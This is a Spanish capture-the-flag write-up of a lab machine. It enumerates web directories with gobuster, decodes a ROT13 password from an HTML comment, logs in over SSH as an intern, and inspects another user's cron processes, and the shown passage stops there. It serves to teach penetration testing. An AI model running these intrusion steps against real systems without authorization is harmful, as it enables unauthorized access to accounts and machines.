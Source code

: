 Tenemos dos pasantes, **pedro** y **valentina**, y son de IT, podemos deducir que son los que tienen permisos SSH. Podemos realizar un ataque de diccionario con **hydra**, pero antes, ejecutamos un descubrimiento de directorios con **gobuster**. Hay un resultado interesante, la de /spam, vemos qué contiene.

```shell
gobuster dir -u gatekeeperhr.com -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
-------------------------------------------------------------------
/spam (Status: 301) [Size: 319] [--> http://gatekeeperhr.com/spam/]
```

Sólo es fondo oscuro, por lo que vemos el código fuente. Hallamos un texto codificado, después de pasarlo por ChatGPT nos dice que está cifrado usando ROT13.

```html
<body>
    <!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' -->
</body>
```

El texto decodificado es:

```shell
La contraseña de uno de los pasantes es 'purpl3'
```

Teniendo ya, dos posibles usuarios (pedro, valentina) y una contraseña (purpl3), intentamos conectarnos por SSH. La contraseña resultó ser para el pasante **pedro**.

```shell
ssh pedro@172.17.0.2
pedro@172.17.0.2's password: purpl3
pedro@34e0296f5c5d:~$ whoami
pedro
```

También encontramos al otro pasante, valentina.

```shell
pedro@34e0296f5c5d:~$ ls -l /home
total 8
drwxrwx--- 1 pedro     pedro     4096 Feb 10 03:46 pedro
drwxrwx--- 1 valentina valentina 4096 Feb 10 03:46 valentina
```

No existen permisos asignados a nivel de sudoers de ningún tipo, no obstante, descubrimos que el usuario valentina está ejecutando un script cada 15 segundos, por lo que deducimos que existen tareas cron para dicho usuario.

```shell
pedro@34e0296f5c5d:~$ watch -n 1 ps -u valentina -f
UID          PID    PPID  C STIME TTY          TIME CMD
valenti+    4820    4816  0 15:11 ?        00:00:00 /bin/sh -c sleep 45; /opt/log_cleaner.sh
valenti+    4821    4818  0 15:11 ?        00:00:00 /bin/sh -c sleep 15; /opt/log_cleaner.sh
valenti+    4823    4821  0 15:11 ?        00:00:00 sleep 15
valenti+    4824    4820  0 15:11 ?        00:00:00 sleep 45
valenti+    4825    4817  0 15:11 ?        00:00:00 /bin/sh -c sleep 30; /opt/log_cleaner.sh
valenti+    4828    4825  0 15:11 ?        00:00:00 sleep 30
```
